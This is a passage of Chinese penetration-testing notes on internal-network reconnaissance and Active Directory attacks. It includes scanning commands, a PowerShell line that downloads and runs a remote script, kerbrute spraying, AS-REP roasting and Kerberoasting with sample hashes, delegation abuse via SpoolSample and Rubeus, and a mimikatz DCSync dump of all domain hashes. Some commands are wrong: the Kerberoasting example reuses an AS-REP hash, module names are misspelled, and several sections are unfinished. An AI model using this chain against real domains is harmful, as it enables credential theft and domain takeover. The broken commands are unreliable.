ComputerName           : 13.107.4.52
RemoteAddress          : 13.107.4.52
InterfaceAlias         : WLAN
SourceAddress          : 172.20.10.2
PingSucceeded          : True
PingReplyDetails (RTT) : 186 ms
```

也可以跟命令提示符一样批量 Ping。运行后会在终端上打印当前 Ping 的结果，成功通讯返回 True，否则是 False，结果也会输出重定向到 E:\\Desktop\\icmp.txt 文件中。

```plaintext
PS E:\desktop> for ($i = 1; $i -le 254; $i++) {$ipAddr="13.107.4." + $i; $result=Test-NetConnection -ComputerName $ipAddr -InformationLevel Quiet; $realStatus=$ipAddr + "," + $result; echo $realStatus; echo $realStatus.Trim("`n") >> E:\\Desktop\\icmp.txt}
13.107.4.1,True
13.107.4.2,True
警告: Ping to 13.107.4.3 failed with status: TimedOut
13.107.4.3,False
警告: Ping to 13.107.4.4 failed with status: TimedOut
13.107.4.4,False
警告: Ping to 13.107.4.5 failed with status: TimedOut
13.107.4.5,False
警告: Ping to 13.107.4.6 failed with status: TimedOut
13.107.4.6,False
警告: Ping to 13.107.4.7 failed with status: TimedOut
13.107.4.7,False
```

### 2.4 ARP

nmap

```plaintext
nmap -sn -PR 192.168.1.1/24
```

msf

```plaintext
use auxliar/scanner/discovery/arp_sweep
```

arp-scan(linux)

-   [https://linux.die.net/man/1/arp-scan](https://linux.die.net/man/1/arp-scan)
-   `arp-scan -interface=eth1 --localnet`

arp-scan(win)

-   [https://github.com/QbsuranAlang/arp-scan-windows](https://github.com/QbsuranAlang/arp-scan-windows)\-
-   `arp-scan.exe -t 10.10.10.0/24`

netdiscover

```plaintext
netdiscover -r 10.10.10.0/24 -i eth1
```

[Invoke-ARPScan.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/Invoke-ARPScan.ps1)

```powershell
powershell.exe -exec bypass -Command "import-Module .\arpscan.ps1;InvokeARPScan -CIDR 192.168.1.0/24"
```

### 2.5 SMB

nmap

```plaintext
nmap -sU -sS --script smb-enum-shares.nes -p 445 192.168.1.119
```

Crackmapexec，默认 100 线程

```plaintext
Crackmapexec smb 10.10.10.0/24
```

msf

```plaintext
use auxliar/scanner/smb/smb_version
```

### 2.6 端口扫描

#### 2.6.1 TCP

MSF

```plaintext
// TCP SYN 扫描
use auxliar/scanner/portscan/syn
```

[nishang](https://github.com/samratashok/nishang/blob/master/Scan/Invoke-PortScan.ps1)

```plaintext
// 具体选项查看源码中注释使用。
powershell.exe iex(new-object net.webclient).downloadstring('http://host/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 10.10.10.1 -EndAddress 10.10.10.255 -ResolveHost -ScanPort
```

nc

```plaintext
// TCP SYN 扫描
nc -nvz <Host> <Port>[-Port]
```

telnet

```plaintext
telnet <Host> <Port>
```

#### 2.6.2 UDP

nmap

```plaintext
nmap -sU -T4 -sV --max-retries 1 192.168.1.100 -p 500
```

msf

```plaintext
use auxliar/scanner/discovery/udp_probe
use auxliar/scanner/discovery/udp_sweep
```

nc

```plaintext
// UDP 扫描
nc –nvzu <Host> <Port>[-Port]
```

## 3 内网横向移动

有了存活主机后，也知道内网主机开放了哪些服务，需要通过当前据点快速打击内网其他机器接近目标，这就是横向移动，只是词好听些。和信息收集自动化一样，也有自动化利用的工具，[fscan](https://github.com/shadow1ng/fscan) 集成了常见漏洞 POC，可以对存活主机自动化利用。

### 3.1 Active Directory 利用⚒️

还没想好如何结构化 AD 域知识，是不是先安排为 AD 域基础使用篇，快速建立对域的基本认知及基本功能使用，最后是利用篇，利用篇最好是先原理、侦察、利用、修复

比如 Kerberos 利用，是怎么分类的？按照请求阶段分类吗？比如委派算在 Kerberos 里某些阶段。

#### 3.1.1 Kerberos⚒️

MIT 发明的协议，Windows Server 2003 版本开始默认使用 Kerberos 认证，现在使用的版本是 Kerberos V5，[RFC 4120](https://www.rfc-editor.org/rfc/rfc4120) 描述了规范内容。

客户端要想访问资源服务器，需要向域控 Key Distribution Center（KDC）TCP 88 端口发起认证、授权，KDC 有两个组件参与其中：

1.  Authentication Service (AS)
2.  Ticket Granting Server (TGS)

下面讲述客户端访问资源服务器的整个协议交互过程，主要分为用户认证和访问服务资源两部分内容。

*用户认证*

一、向 AS 认证，证明自己是有效的域账户。

> 
> 
> [CVE-2020-17049: Kerberos Bronze Bit Attack – Theory](https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory)

AS-REQ，客户端使用 NT Hash 加密（具体用什么加密方法还不能确定，需要跟服务器协商，AES256\_HAMC\_SHA1 密钥是用户名、密码和域名，RC4 密钥则是用户密码 NTLM Hash）Timetamp 发送到 AS。

AS-REP，AS 收到请求后去查本地数据库密钥解密，验证成功返回 TGT、Session Key，其中 Session Key 使用用户密码哈希加密，TGT 使用 krbtgt 服务账户密码 NT Hash 加密（客户端没有 krbtgt 账户密码哈希不能解密，而且这个密码每个系统随机，不存在重用）。

TGT 内容包含：

-   [PAC](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/c38cc307-f3e6-4ed4-8c81-dc550d96223c)（Privilege Attribute Certificate，微软对 Kerberos 扩展内容）
    -   User RID，域用户 513，域管理员 512，架构管理员 518，企业管理员 519，组策略创建所有者 520
    -   Group RID，简单标识用户归属组，Domain Users 为 513，Domain Coputers 为 515，Domain Controllers 为 516
    -   Num RIDs，用户加入组的数量
    -   GroupIDs，一个用户可能属于多个组，这里展示所有归属组的 ID
    -   User Name，用户 SamAccountName
    -   Full Name，用户 DispayName
    -   ......
-   ServiceUserName
-   Session Key
-   Domain Name
-   Timetamp
-   TGT 有效期（默认 10 小时）
-   ......

第一步认证是要获取 TGT（Ticket Granting Ticket），要是没有后续的访问资源的需求，到这里认证就结束了。

*访问服务资源*

二、向 TGS 授权，域账户要访问域内资源先请求授权。

> 
> 
> [CVE-2020-17049: Kerberos Bronze Bit Attack – Theory](https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory)

TGS-REQ，客户端向 TGS 发请求，内容包含 Timetamp（使用 AS-REP 返回的 Session Key 加密过）、UserName、TGT（提交的是 AS-REP 返回的 TGT）、SPN（指定你要访问的资源服务器）。

TGS-REP，TGS 收到请求，使用域服务账户 krbtgt 的 NT Hash 解密 TGT 取出 Session Key，解密 Timetamp，验证 SPN 在不在域内，验证 TGT 是否过期，验证 TGT 中用户名和 TGS 请求中用户名是否一致，一切验证无误 TGS 向客户端返回 Session Key、SPN 和 ST。

Session Key 由 TGS 新生成，和 SPN 一起被 TGT 中 Session Key 加密，ST 是用服务账户（这个 SPN 有可能是域用户或是机器，看具体访问的是哪个服务）密码 NT Hash 加密，所有都加密完成后一起返回。

ST 内容包含：

-   TGS 新生成的 Session Key
-   PAC
-   UserName
-   Flags
    -   Forwardable: 1
-   ......

第二步是要拿着 TGT 获取 ST（Service Ticket）。

三、访问服务获取资源

> 
> 
> [CVE-2020-17049: Kerberos Bronze Bit Attack – Theory](https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory)

AP-REQ，客户端向资源服务器发送请求，内容包含 Timetamp（用 TGS Session Key 加密过）、UserName 以及 ST。

AP-REP，资源服务器收到请求，使用当前运行应用的服务账户哈希解密 ST 获取 UserName 及 Session Key，先用 Session Key 解密时间戳，确认时间间隔不大没有重放攻击，再比对 ST 中 UserName 和 AP-REQ 中 UserName 是否一致，一切没问题则表示通过。最后检查 ST 中 PAC 与本地 ACL 资源进行比较，确认是否有权限使用（标准 Kerberos 没有 PAC 会把 ST 中 PAC 作为内容，发送 RPC 请求到 KDC [验证权限](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-apds/1d1f2b0c-8e8a-4d2a-8665-508d04976f84)，通过响应状态码判断有没权限访问）。

第三步是真正访问服务，域内资源验证域账户是否有权访问。

上面这些内容是主要的一个大概信息，当然请求和响应还有更多字段没有协商，这需要 [Wireshark 抓包](https://mp.weixin.qq.com/s/0CdROpu_AQroqHVg_qZKRQ)验证认证流程，补足相关细节。[kerberos wireshark capture - Google 搜索](https://www.google.com/search?q=kerberos+wireshark+capture&oq=Kerberos+wireshark+capture&aqs=edge.0.69i59j0i8i30l2j69i57.5350j0j1&sourceid=chrome&ie=UTF-8)

-   [Kerberoasting - Red Team Notes (ired.team)](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting#traffic)，有写怎么解密 Kerberos 内容。
-   《域渗透攻防指南》1.2.3 Kerberos 实验，有介绍怎么抓整个 AS、TGS、AP 请求响应包

对于标准的 Kerberos，微软在使用时自己扩展的了 PAC 和 S4U：

-   PAC
-   S4U
    -   S4U2proxy
    -   S4U2self

这些内容会在对应利用章节做介绍。

##### AS-REQ Username Enumeration⚒️

AS-REQ 返回的响应：

-   KDC\_ERR\_PREAUTH\_REQUIRED，用户存在
-   KDC\_ERR\_CLIENT\_REVOKED，用户存在账户锁定或禁用
-   KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN，用户不存在

[https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

```plaintext
kerbrute userenum -d <Domain FQDN> --dc <DC IP> <Username Dict>
```

**这样枚举用户名，有没日志存在？**

##### AS-REQ Password Spary⚒️

发送 AS-REQ 请求，如果响应 AS-REP 证明认证成功，说明账户正确，报错是密码不正确（**这里需要提供报什么错密码不正确。**）。

爆破工具 [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)。

对用户名列表内所有用户使用一个密码登录。

```plaintext
kerbrute passwordspray -d <Domain FQDN> --dc <DC IP> <Username Dict> <Password>
```

**这样喷洒，有没什么登录日志存在？最好先看域内密码规则，多少次锁定账户。**

##### AS-REP Roasting

利用前提需要主动给域用户禁用预认证。



原理是在 AS-REP 响应中返回 NTLM 哈希加密的 Session Key，比较枚举哈希结果，一致就证明密码正确。

```plaintext
.\Rubeus.exe asreproast /format:hashcat /user:<User Name> [/domain:<Domain Name>] /nowrap
```

```plaintext
PS C:\Users\bunny\desktop> .\Rubeus.exe asreproast /format:hashcat /user:moretz /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3


[*] Action: AS-REP roasting

[*] Target User            : moretz
[*] Target Domain          : whoamianony.org

[*] Searching path 'LDAP://DC.whoamianony.org/DC=whoamianony,DC=org' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=moretz))'
[*] SamAccountName         : moretz
[*] DistinguishedName      : CN=moretz,OU=IT,DC=whoamianony,DC=org
[*] Using domain controller: DC.whoamianony.org (192.168.93.30)
[*] Building AS-REQ (w/o preauth) for: 'whoamianony.org\moretz'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:


$krb5asrep$23$moretz@whoamianony.org:653C184951327F2DDA3380550E2847E1$30E6F7AF1973D4B9160EF28AEBC79F0F4594CB889166538A0D8B58A1A13E6A0C5C9B9938C22A64031CF429463C580A55C9468233
2DEC6F784DF009EF6C1371EDBE1BF748FC7EE2EC7628B14C7AF11E20490F370413ECFC441485769280A759A3AF053002239FFA904A7260B11F9A6DF57D1C23ED8D3A5532A838594816A24270DF42186D5BCFFEDB5F8770F49BAB
8D9FEAD94CC7C721F4434648650D1962550BFA7DDB02BDDE6174807423FFFF4B08FD46ECA4F6DC608F5760F2E98629963F6EB21C23933F21FBE023DEED71C6865AA97720998B2C3E2E7C51581E1D5B541AA76113D5BAB024CC32
C9E24042F5A2D0C4858B
```

hashcat 用字典爆破。

```plaintext
hashcat -m 18200 '$krb5asrep$23$moretz@whoamianony.org:653C184951327F2DDA3380550E2847E1$30E6F7AF1973D4B9160EF28AEBC79F0F4594CB889166538A0D8B58A1A13E6A0C5C9B9938C22A64031CF429463C580A55C9468233
2DEC6F784DF009EF6C1371EDBE1BF748FC7EE2EC7628B14C7AF11E20490F370413ECFC441485769280A759A3AF053002239FFA904A7260B11F9A6DF57D1C23ED8D3A5532A838594816A24270DF42186D5BCFFEDB5F8770F49BAB
8D9FEAD94CC7C721F4434648650D1962550BFA7DDB02BDDE6174807423FFFF4B08FD46ECA4F6DC608F5760F2E98629963F6EB21C23933F21FBE023DEED71C6865AA97720998B2C3E2E7C51581E1D5B541AA76113D5BAB024CC32
C9E24042F5A2D0C4858B' dict.txt -o krb5asrep-plaintext.txt

hashcat -a 0 -m 18200 krb5asrep-plaintext.txt dict.txt
```

防范 AS-REP Roasting 可以设置组策略中密码复杂度相关策略，让破解难度增大，另一个是排查域内哪些域用户开启“禁用预认证”选的。

##### Kerberoasting

域用户设置了 SPN，在完成 AS 认证后请求 TGS，TGS-REP 阶段返回 Service Ticket，由于 Service Ticket 使用服务账户 NTLM 哈希加密，可以离线枚举，如果运气好就可能得到明文，这就是 Kerberoasting 攻击。

它利用条件是需要一个有效的域用户才能进行攻击。

```plaintext
rubeus kerberoast /format:hashcat /user:<UserName> /nowrap
```

对指定域内开启了 SPN 用户 Kerberoasting 攻击。

```plaintext
rubeus kerberoast /format:hashcat /domain:<Domain Name> /user:<UserName> /nowrap
```

rubeus 也可以帮你自动化完成当前域（指定域需要加 /domain 参数）枚举到利用整个过程。最好不要这样干，大批量操作会不安全，如果创建一个[蜜罐账户](https://adsecurity.org/?p=3513)，只要有人发起 Kerberoasting 攻击就告警。

```plaintext
rubeus kerberoast /format:hashcat /nowrap
```

猜解哈希。

```plaintext
hashcat -m 13100 '$krb5asrep$23$moretz@whoamianony.org:653C184951327F2DDA3380550E2847E1$30E6F7AF1973D4B9160EF28AEBC79F0F4594CB889166538A0D8B58A1A13E6A0C5C9B9938C22A64031CF429463C580A55C9468233
2DEC6F784DF009EF6C1371EDBE1BF748FC7EE2EC7628B14C7AF11E20490F370413ECFC441485769280A759A3AF053002239FFA904A7260B11F9A6DF57D1C23ED8D3A5532A838594816A24270DF42186D5BCFFEDB5F8770F49BAB
8D9FEAD94CC7C721F4434648650D1962550BFA7DDB02BDDE6174807423FFFF4B08FD46ECA4F6DC608F5760F2E98629963F6EB21C23933F21FBE023DEED71C6865AA97720998B2C3E2E7C51581E1D5B541AA76113D5BAB024CC32
C9E24042F5A2D0C4858B' dict.txt -o krb5asrep-plaintext.txt

hashcat -a 0 -m 13100 krb5asrep-plaintext.txt dict.txt
```

TGS-REP 返回的哈希中间带有 `$23`，根据加密类型来看 etype 23 在 hashcat 是 13100，如果是其他加密比如 `$17`，就要选 19600，按下表中走就行。一般来说工具会选择 RC4 请求是因为此算法猜解速度快。

> | Mode | Description |
> | --- | --- |
> | `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
> | `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
> | `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |
> 
> [Active Directory Attacks - Payloads All The Things (swisskyrepo.github.io)](https://swisskyrepo.github.io/PayloadsAllTheThings/Methodology%20and%20Resources/Active%20Directory%20Attack/#kerberoasting)

防范可以设置强口令。

##### Pass the Ticket (PtT)⚒️

##### Over Pass the Hash (OPtH)⚒️

Over Pass the Hash 也有称 Pass The Key。

当此域用户禁止使用 NT Hash 进行 Kerberos 认证——被添加进 Protected Users，可以使用 AES。

要说清楚 AES-128 和 AES-256 这些怎么产生的，再一个利用的原理是什么？是 AS-REQ 要用到 NT Hash 加密么？要抓包验

##### PAC⚒️

要详细了解 PAC

[MS-PAC: Introduction | Microsoft Learn](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/c38cc307-f3e6-4ed4-8c81-dc550d96223c)

###### MS14-068 Privilege Escalation (CVE-2014-6324)

返回的 TGT 能够被篡改。

结合 Kerberos 文档来看此漏洞怎么修复的。到底是不是加了签名防篡改。

###### NoPac Privilege Escalation (CVE-2021-42278)

CVE-2021-42278  
CVE-2021-42287  
CVE-2021-42288

##### 委派

###### 非约束委派

整个非约束委派流程，官方文档有着详细描述，这里将其翻译为中文助于理解。

> 
> 
> 1.  用户通过发送 **KRB\_AS\_REQ** 消息进行身份验证，该消息是在[身份验证服务（AS）交换](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/4a624fb5-a078-4d30-8ad1-e9ab71e0bc47#gt_1353e9be-47fd-4284-8e5e-3e82a2738fc9)中的请求消息，并请求可转发的票据授予票证（TGT）。
>     
> 2.  KDC 返回一个可转发的 TGT，在 **KRB\_AS\_REP** 消息中，该消息是身份验证服务（AS）交换中的响应消息。
>     
> 3.  用户基于步骤 2 中的可转发 TGT 请求一个转发的 TGT（为什么 TGT 要可转发，原因是后续步骤 8 中 Service 1 要拿着换 Service2 的 ST），这通过 **KRB\_TGS\_REQ** 消息完成。
>     
> 4.  KDC 在 **KRB\_TGS\_REP** 消息中返回用户的转发 TGT。
>     
> 5.  用户使用步骤 2 中返回的 TGT，通过 **KRB\_TGS\_REQ** 消息向 Service 1 请求 ST。
>     
> 6.  票证授予服务（TGS）在 **KRB\_TGS\_REP** 消息中返回 ST。
>     
> 7.  用户通过发送 **KRB\_AP\_REQ** 消息向 Service 1 发出请求，请求内容有 ST、转发 TGT 和有关转发 TGT 的 session key。
>     
>     注：**KRB\_AP\_REQ** 消息是身份验证协议（AP）交换中的请求消息。
>     
> 8.  为了满足用户的请求，Service 1 需要 Service 2 代表用户执行一些操作。Service 1 使用用户的转发 TGT，并在向 KDC 发送 KRB\_TGS\_REQ 请求，请求以用户的名义为 Service 2 获取一张 ST。
>     
> 9.  KDC 在 **KRB\_TGS\_REP** 消息中返回 Service 2 的票证给 Service 1，同时还提供了 Service 1 可以使用的 session key。这个 ST 属于用户，而不是 Service 1。
>     
> 10.  Service 1 通过 **KRB\_AP\_REQ** 以用户的身份向 Service 2 发出请求。
>     
> 11.  Service 2 做出响应。
>     
> 12.  有了这个响应，Service 1 现在可以响应用户在步骤 7 中的请求。
>     
> 13.  这里来处描述的 TGT 转发委派机制不限制 Service 1 对转发 TGT 的使用。Service 1 可以以用户身份向 KDC 请求任何其他服务 ST。
>     
> 14.  KDC 将返回请求的票证。
>     
> 15.  然后，Service 1 可以冒充 Service N 用户与 Service N 进行交互。如果 Service 1 被攻击者拿下，这可能带来风险。Service 1 可以伪装成其他合法用户与其他服务进行交互。
>     
> 16.  Service N 将响应 Service 1，就像被冒充的真实用户自己发出的请求。
>     
> 
> [Figure 1: Kerberos Delegation with Forwarded TGT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/1fb9caca-449f-4183-8f7a-1a5fc7e7290a#MS-SFU_pict25009a35-e2aa-7849-ca6c-92bbd9d82217.png)

用户访问开启了设置非约束委派服务的 Service 1，7-8 步骤 AP-REQ 请求会将 ST 和可转发 TGT 都发送 Service 1，而 Service 1 的 lsass 进程会缓存可转发 TGT，13-14 步骤 Service 1 可以拿着用户可转发 TGT 向任意服务请求 ST，后续用于代表用户访问其他服务。

利用条件：拿下 Server 1 主机，并且具有管理员权限。

因此只要拿下 Service 1 权限，获取 Service 1 的缓存的用户可转发 TGT，就可以访问任意服务。要是域控访问了 Service 1，就可以以域控身份访问它自身的服务（比如 CIFS）。

获取可转发 TGT，这里在 Service 1 主机上用管理员权限高完整度（SYSTEM 也可以）运行 rubeus 监控，每秒刷新一次，看看有没 TGT 信息。为了防止信息杂乱还可以使用 `/filteruser:<SamAccountname>` 选项过滤显示指定账户。

```plaintext
rubeus.exe monitor /interval:1 /nowrap
```

这里还有个问题，用户什么时候访问不确定，访问要是用户不访问呢？是不是就没法拿到 TGT，这里有不确定性，要等待，一直不访问就没办法。

为了避免等待，可以使用 [SpoolSample](https://github.com/leechristensen/SpoolSample) 利用 MS-RPRN RPC 接口强制域内指定主机 FQDN1 访问服务主机 FQDN2，利用前提是 FQDN1 必须运行 Print Spooler (Spooler) 服务。 **没获取到可能是防火墙问题，这里靶场没复现成功，需要离线搭建环境测试**。

```plaintext
SpoolSample <FQDN1> <FQDN2>
```

一旦监控到域控机器账户 TGT 后，Pass the Ticket 到内存。

```plaintext
Rubeus.exe ptt /ticket:<Base64 Encode TGT>
```

DCSync 导出账户哈希到 dump.txt。

```plaintext
// 导出域内所有账户哈希
mimikatz "log dump.txt" "lsadump::dcsync /domain:<Domain Name FQDN> /all /csv" exit

//导出指定用户哈希
mimikatz "log dump.txt" "lsadump::dcsync /domain:<Domain Name FQDN> /user:<UserName> /all /csv" exit
```

*待补充*拿 hash 登陆机器。

所有委派防范可以在对敏感的对象属性，开启“Account is sensitive and cannot be delegated”选项，不可被委派。或者被加入 [Protected Users](https://learn.microsoft.com/zh-cn/windows-server/security/credentials-protection-and-management/protected-users-security-group#domain-controller-protections-for-protected-users) 组效果也是一样。

###### 约束委派⚒️

相对于非约束委派做了限制，设置委派的对象 Service 1 只能以用户身份访问指定服务（这里是 Service 2），而不像非约束委派可以访问任意服务，再一个 Service 1 不再缓存 TGT。

默认设置都是禁止委派的，要主动配置约束委派有两种选项：

-   Use Kerberos only
    
    
    
-   Use any authentication protocol
    
    
    

一、Use Kerberos only

就使用 Kerberos 进行委派。



1.  访问 Service 1 时前面和正常访问服务一样，走完整个 Kerberos 访问服务的流程。
    
2.  用户获取到 Service 1 可转发 ST。
    
3.  用户访问 Server 1 资源。相当于发送 AP-REQ 请求。
    
4.  Service 1 使用 S4U2proxy 以用户身份获取 Service 2 的 ST。
    
    详细点说就是 Service 1 在步骤 3 拿到用户 ST 后，这个 ST 只能访问 Service 1 自己，要以用户身份访问 Service 2 资源，需要用户持有 Service 2 的 ST。那怎么以用户身份拿 Service 2 的 ST 呢？这就到 S4U2proxy（Service for User to Proxy）协议。首先 Service 1 将步骤 3 获取到的用户 ST 和 Service 1 自己的 TGT 发送到 KDC 中 TGS 处理，TGS 会检查 ST 中 Flag 的 Forwardable 是不是可转发（设置为 1 表示可转发，0 不可转发）和 Service 2 的 SPN 是不是在 Service 1 设置委派的范围内——也就是 msDS-AllowedToDelegateTo 属性值的 SPN，当 ST 可以转发又在范围内就返回 Service 2 的 TGS。
    
5.  Service 2 响应 Service 1 以用户身份申请的 ST。
    
6.  Service 1 拿着用户的 ST 请求 Service 2 资源。
    
    Service 1 拿用户 TGS 发送 AS-REQ 访问 Service 2，从 Service2 视角来看这就是用户访问自己。
    
7.  Service 2 响应资源内容给 Service 1。
    
8.  Service 1 响应资源给用户。
    

二、Use any authentication protocol

使用 Kerberos 以外的协议进行委派。

> 
> 
> 1.  用户向 Service 1 发出了一个请求。用户通过认证，但 Service 1 没有用户的授权数据。通常是因为认证由 Kerberos 以外的其他协议验证身份。
>     
> 2.  Service 1 向 KDC 进行 AS-REQ 认证并得到了自己的可转发 TGT，它通过 S4U2self（Service for User to Self）扩展来代表指定用户向自己请求一张 ST。S4U2self 向 KDC 发送的数据有可转发 TGT 和 Timestamp 及用户名，用户名使用 user name 和用户的 [realm](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/4a624fb5-a078-4d30-8ad1-e9ab71e0bc47#gt_a6d72903-d1a8-4968-bd9b-bf22005e8b58) name 来标识（如 [2.2.1](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/aceb70de-40f0-4409-87fa-df00ca145f5a) 部分所规定）。另外，如果 Service 1 拥有用户的证书，它可以使用 [PA-S4U-X509-USER](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/cd9d5ca7-ce20-4693-872b-2f5dd41cbff6) 结构与 KDC 做认证。
>     
> 3.  KDC 返回给 Service 1 的 ST，就跟用户自己用 TGT 主动向 KDC 请求的一样。该 ST 可能包含用户的授权数据（授权就是权限 PAC 啥的）。ST 的 Flag 中 Forwardable 是 1 可以转发。
>     
>     针对 S4U2self 什么情况下返回可转发 ST 展开讲讲，约束委派配置成任意协议认证会在 userAccountControl 属性添加 TRUSTED\_TO\_AUTHENTICATE\_FOR\_DELEGATION——也有简写成 TrustedToAuthForDelegation，有了这个 Flag 可以使用 S4U2self 帮用户获取 Service 1 自己的 ST，并添加 Forwardable 为 1 表明 ST 可转发，没有设置为 Forwardable 是 0 不能转发。
>     
> 4.  Service 1 可以使用 ST 中的授权数据来满足用户的请求。然后，服务向用户作出响应。
>     
>     尽管 S4U2self 向 Service 1 提供关于用户的信息，但这个扩展并不允许 Service 1 代表用户请求其他服务内容。这是 S4U2proxy 的作用。S4U2proxy 在上图的下半部分有描述。
>     
> 5.  用户携带可转发 ST 向 Service 1 发出一个请求。Service 1 需要以用户的身份访问 Service 2 资源。然而，Service 1 没有拿到用户的可转发 TGT 来执行转发 TGT 的委派。如图中写的，指定的带有转发 TGT 的 Kerberos 委派，需要两个前提条件。首先，Service 1 已经与 KDC 完成身份验证，并且有一个可转发的有效 TGT。其次，Service 1 有一张从用户到 Service 1 的可转发 ST。这种可转发的 ST 可能是通过 \[RFC4120\] 第 3.2 节中规定的 **KRB\_AP\_REQ** 消息或通过 S4U2self 请求获得的。
>     
> 6.  Service 1 使用 S4U2proxy 代表用户向 Service 2 请求 ST。S4U2proxy 数据中有 Service 1 自己的可转发 TGT，从步骤 5 中的可转发 ST（步骤 5 的 ST 是通过 S4U2self 得到的），以及可转发 ST 里面的 client name 和 client realm 用于标识用户名。要返回的 Service 2 的 ST，其中授权数据也是从 S4U2self 的 ST 中复制的。[<1>](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/a47e0084-d6c3-40ba-8c3c-f1eeb3d85ecf#Appendix_A_1)
>     
> 7.  KDC 检查 ST 是不是可转发的，如果可以转发再进行下一步的 PAC 检查，如果请求中包含 [privilege attribute certificate (PAC)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/4a624fb5-a078-4d30-8ad1-e9ab71e0bc47#gt_26456104-0afb-4afe-a92e-ac160a9efdf8)，KDC 将通过检查 PAC 结构的签名数据来验证 PAC 没被篡改，如 [\[MS-PAC\]](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/166d8064-c863-41e1-9c23-edaaa5f36962) 2.8 节中所规定的，最后要看 S4U2proxy 请求的服务在不在 msDS-AllowedToDelegateTo 范围内。这 3 个条件都满足则返回 Service 2 的 ST。但 ST 的 **cname** 和 **crealm** 字段中存储的 client identity 是用户，而不是 Service 1。
>     
> 8.  Service 1 使用 S4U2proxy 获取的 ST 向 Service 2 发出请求。Service 2 将此请求视为来自用户，并假定用户经过了 KDC 的验证。
>     
> 9.  Service 2 响应请求。
>     
> 10.  Service 1 响应用户步骤 5 发出的请求。
>     
> 
> [Figure 2: S4U2self and S4U2proxy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/1fb9caca-449f-4183-8f7a-1a5fc7e7290a#MS-SFU_pict8befb336-85f8-dda4-d11c-b5841f35c764.png)

约束委派 Use Kerberos only 和 Use any authentication protocol 有什么不同？可以发现在使用 Kerberos 认证访问，步骤 1-2 用户直接能获取 Service 1 ST，后面 Service 1 直接就可以拿着 ST 使用 S4U2proxy 请求 msDS-AllowedToDelegateTo 配置范围内的 ST（Service 2），访问资源。而使用其他认证协议，步骤 1-4，则需要 Service 1 使用 S4U2self 帮用户获取 Service 1 自己的 ST，后续 S4U2proxy 没有区别。

简单来说这个交互过程：

-   步骤 1-4，用户访问被设置约束委派的对象 Service 1，Service 1 使用 S4U2self 以用户身份请求自己 TGS 返回给用户。
    
-   步骤 5-7，后续再次访问 Service 1，Service 1 就拿着用户 TGS 使用 S4U2proxy 代替用户请求允许委派的服务 Service 2 的 TGS。
    
-   步骤 8-10，接着 Service 1 以用户身份发送 S4U2proxy 请求 Service 2。
    

利用条件：

1.拿下设置约束委派的对象权限。这里可能是机器账户或者服务账户。

2.获取设置了委派的账户凭证请求 TGT，拿着 TGT 通过 S4U2self 获取指定用户可转发 ST 访问 Service 1（S4U2self 可以模仿任何用户不限制）。拿着可转发 ST 和 TGT 使用 S4U2proxy 让 Service 1 模仿指定用户获取 Service 2 的 ST，访问委派范围内服务。

利用过程：

先获取设置了委派主机的 TGT。因为后续 S4U2self 和 S4U2proxy 都需要用到。

1.获取 Service 1 的 TGT

通过明文账户申请 TGT

```plaintext
Rubeus.exe asktgt /user:<Username> /password:<password> /nowrap
```

通过哈希申请 TGT

使用 mimikatz 读取 AES Hash。

```plaintext
mimikatz sekurlsa::ekeys
```

使用普通账户或机器账户哈希申请 TGT。

```plaintext
Rubeus.exe asktgt /user:<Username> /aes256:<AES Hash> /nowrap
```

通过内存中读取已存在的 TGT。

没有管理员权限，普通用户可以 tgtdeleg 技巧，利用 GSS-API 提取主机缓存的 TGT。

```plaintext
Rubeus.exe tgtdeleg /nowrap
```

有管理员（SYSTEM 或者高完整度都行）可以导出当前主机的 TGT。

```plaintext
# 查询有哪些 TGT，定位当前 UserName 为主机，Service 为指定域的认证服务  krbtgt/<Domain FQDN>。
Rubeus.exe triage

# 导出指定 LUID 的 TGT。
Rubeus.exe dump /luid:<LUID> /nowrap
```

2.获取 Service 2 的 ST

Service 1 用自己的 TGT 发起 S4U2self 请求，模仿指定用户获取其对当前服务的 ST，接着拿 TGT 继续使用 S4U2proxy 获取指定服务的 ST，使用 PtT 导入会话就可以访问目标服务。

```plaintext
Rubeus.exe s4u /user:<SamAccoutnName> /domain:<Domain FQDN> /ticket:<Base64 | tgtFile> /impersonateuser:<impersonate user name> /msdsspn:HTTP/target.domain /ptt
```

它几个选项说明如下：

-   `/user`，当前被设置委派的机器账户或者服务账户。
